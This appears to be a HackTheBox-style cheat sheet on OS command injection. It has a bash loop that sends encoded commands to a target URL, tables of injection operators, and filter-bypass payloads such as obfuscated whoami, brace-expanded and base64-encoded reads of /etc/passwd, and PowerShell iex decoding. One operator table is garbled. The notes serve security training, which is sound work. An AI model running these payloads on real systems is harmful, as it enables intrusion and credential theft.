 #### Enumeration

**Identifying**

`L3pr3ch4un@htb[/htb]$ sudo tcpdump -i tun0 icmp`

And `ping <your ip>`

#### Automate executing **commands**
```bash
function rce() {
	while true; do
		echo -n "# "; read cmd
		ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
		curl -s -o - "http://<TARGET IP>/runme?x=${ecmd}"
		echo ""
	done
}
```

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command                           |                                    |                              |
| ------------------ | ------------------- | --------------------- | ------------------------------------------ | ---------------------------------- | ---------------------------- |
| Semicolon          | ;                   | %3b                   | Both                                       |                                    |                              |
| New Line           | \n                  | %0a                   | Both                                       |                                    |                              |
| Background         | &                   | %26                   | Both (second output generally shown first) |                                    |                              |
| Pipe               |                     |                       | %7c                                        | Both (only second output is shown) |                              |
| AND                | &&                  | %26%26                | Both (only if first succeeds)              |                                    |                              |
| OR                 |                     |                       |                                            | %7c%7c                             | Second (only if first fails) |
| Sub-Shell          | ``                  | %60%60                | Both (Linux-only)                          |                                    |                              |
| Sub-Shell          | $()                 | %24%28%29             | Both (Linux-only)                          |                                    |                              |

The easiest method to customize the HTTP requests being sent to the back-end server is to use a web proxy

| Injection Type                          | Operators                           |     |
| --------------------------------------- | ----------------------------------- | --- |
| SQL Injection                           | ' , ; -- /* */                      |     |
| Command Injection                       | ; &&                                |     |
| LDAP Injection                          | * ( ) &                             |     |
| XPath Injection                         | ' or and not substring concat count |     |
| OS Command Injection                    | ; &                                 |     |
| Code Injection                          | ' ; -- /* */ $() ${} #{} %{} ^      |     |
| Directory Traversal/File Path Traversal | ../ ..\\ %00                        |     |
| Object Injection                        | ; &                                 |     |
| XQuery Injection                        | ' ; -- /* */                        |     |
| Shellcode Injection                     | \x \u %u %n                         |     |
| Header Injection                        | \n \r\n \t %0d %0a %09              |     |

**Bypassing blacklisted characters**

`/`:`echo ${PATH:0:1}`

`cat /etc/passwd`:`{cat,/etc/passwd}`

`\`:`$env:HOMEPATH[0]`

`21y4d@htb[/htb]**$** w'h'o'am'i`

`21y4d@htb[/htb]**$** w"h"o"am"i`

`who$@ami`

`C:\htb> who^ami`

**Character Shifting**

There are other techniques to produce the required characters without using them, like shifting characters. For example, the following Linux command shifts the character we pass by 1. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it with man ascii), then add it instead of [ in the below example. This way, the last printed character would be the one we need

```
XeroCyb3r@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
XeroCyb3r@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)
```

**Case Manipulation**

`21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`

**Reversing**

`XeroCyb3r@htb[/htb]**$** echo -n 'cat /etc/passwd | grep 33' | base64`

`XeroCyb3r@htb[/htb]**$** bash<<<**$**(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`

`PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`

`XeroCyb3r@htb[/htb]**$** echo -n whoami | iconv -f utf-8 -t utf-16le | base64`

`PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`

## Evasion Tools

- Bashfuscator
- DOSfuscation(Windows)

## Reference:

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space
